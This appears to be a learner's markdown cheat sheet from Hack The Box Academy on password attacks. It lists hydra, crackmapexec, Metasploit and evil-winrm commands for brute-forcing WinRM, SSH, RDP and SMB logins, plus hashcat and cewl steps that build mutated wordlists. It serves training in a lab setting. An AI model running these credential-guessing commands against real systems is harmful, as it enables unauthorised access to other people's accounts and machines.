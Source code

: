 ## HTB-ACADEMY (Passsword attacks / Remote Services)
## Ivan Medina
---

### Remote attacks

##### Network services

- Winrm crack

```
crackmapexec winrm <ip> -u user.list -p password.list
```

```
evil-winrm -i <ip> -u user -p password
```

- SSH crack

```
hydra -t 4 -L user.list -P password.list <ip> ssh -V
```

- RDP crack

```
hydra -L user.list -P password.list <ip> rdp
```

```
xfreerdp /v:<ip> /u:<user> /p:<password>
```

- SMB crack with metasploit

```
use auxiliary/scanner/smb/smb_login
```

- SMB shares

```
crackmapexec smb <ip> -u "user" -p "password" --shares
```

- SMB client

```
smbclient -U user \\\\10.129.42.197\\SHARENAME
```

##### Password mutations

*Password rules*

| Function   |      Description      |
|----------|:-------------:|
| : |	Do nothing. |
| l |	Lowercase all letters. |
| u |	Uppercase all letters. |
| c |	Capitalize the first letter and lowercase others. |
| sXY |	Replace all instances of X with Y. |
| $! |	Add the exclamation character at the end. |

*Generate wordlist with rules*

```
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
```

*Generate wordlist from webpage*

```
cewl https://www.inlanefreight.com -d 4 -m 6 --lowercase -w inlane.wordlist
```
